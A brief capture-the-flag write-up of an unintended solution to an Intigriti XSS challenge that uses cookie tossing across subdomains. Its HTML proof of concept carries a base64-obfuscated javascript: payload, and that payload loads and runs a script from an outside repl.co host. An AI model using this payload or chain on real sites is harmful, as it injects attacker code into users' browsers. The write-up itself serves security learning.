 ```yaml
---
layout: post
date: 2021-08-23 00:00
title: Inti XSS unintended solution
summary: cookies and milk
---
```


Unintended way to solve the challenge

Two things you need to Know (Gotcha's):
	- Any subdomain can set cookie for all subdomains of a domain
	- If two cookie with same name exists, the cookie with more specific path is prefered.

Steps:
	1. Using previous XSS on intigritii challenges create a cookie named `username` set it's domain attribute as
	`intigriti.io` and path attribute as `/challenge/cooking.html`
	2. Redirect to `https://challenge-0821.intigriti.io/`


POC code:
 ```HTML
	<!DOCTYPE html>
	<html>
	  <head>
	    <meta charset="utf-8">
	    <meta name="viewport" content="width=device-width">
	    <title>repl.it</title>
	    <link href="style.css" rel="stylesheet" type="text/css" />
	  </head>
	  <body>
	    <script>
	      location = "https://javascript.challenge-0121.intigriti.io/?r=j%26%23x41;vascript:eval(atob(`eD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTt4LnNyYz0iaHR0cHM6Ly9jeWJlcnBvc3NpYmxlYXhpcy5jeXBoM3IxMzM3LnJlcGwuY28vc2NyaXB0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==`));//%0aid=origin"
	
	    </script>
	  </body>
	</html>
 ```
